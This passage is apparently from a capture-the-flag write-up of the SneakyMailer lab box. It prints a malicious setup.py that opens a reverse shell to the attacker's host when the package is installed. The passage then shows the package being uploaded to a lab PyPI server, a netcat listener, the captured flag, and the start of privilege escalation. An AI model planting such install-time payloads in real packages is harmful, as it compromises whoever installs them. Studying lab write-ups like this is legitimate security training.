 The code in `setup.py` is:

    :::python
    from setuptools import setup
    import sys
    import os
    import socket
    import pty
    from setuptools.command.install import install
    import getpass

    requests.get('http://10.10.14.11:8000/boom')
    if getpass.getuser() != 'kali':
        s=socket.socket()
        s.connect(('10.10.14.11',4444))
        [os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")

    setup(
    name = 'plop',         # How you named your package folder (MyLib)
      packages = ['plop'],   # Chose the same as "name"
      version = '0.3',      # Start with a small number and increase it with every change you make
      license='MIT',        # Chose a license from here: https://help.github.com/articles/licensing-a-repository
      cmdclass={'install': CustomInstall},
    )

We build our package with `python setup.py sdist` and upload it to the PyPi
server with `twine`:

    :::text
    twine upload --repository-url http://pypi.sneakycorp.htb:8080/ dist/* --verbose

At the same time we run a `netcat` listener on our Kali box and wait for the
shell. We then have a shell as `low` and can access the user flag.

    :::text
    nc -l -p 4444

    $ id
    id
    uid=1000(low) gid=1000(low) groups=1000(low),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),119(pypi-pkg)

    $ cat ~/user.txt
    cat ~/user.txt
    73592699b63e47969c6de934654c2325

# Root

We put our ssh public key in the `.ssh/authorized_keys` file and connect to the
box using SSH and run `sudo -l`. We found that we can run `pip3` as root without
password.

    :::text
    kali@kali:~$ ssh low@10.10.10.197
    low@sneakymailer:~$ sudo -l
    ^C^C^Csudo: unable to resolve host sneakymailer: Temporary failure in name resolution
    Matching Defaults entries for low on sneakymailer:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
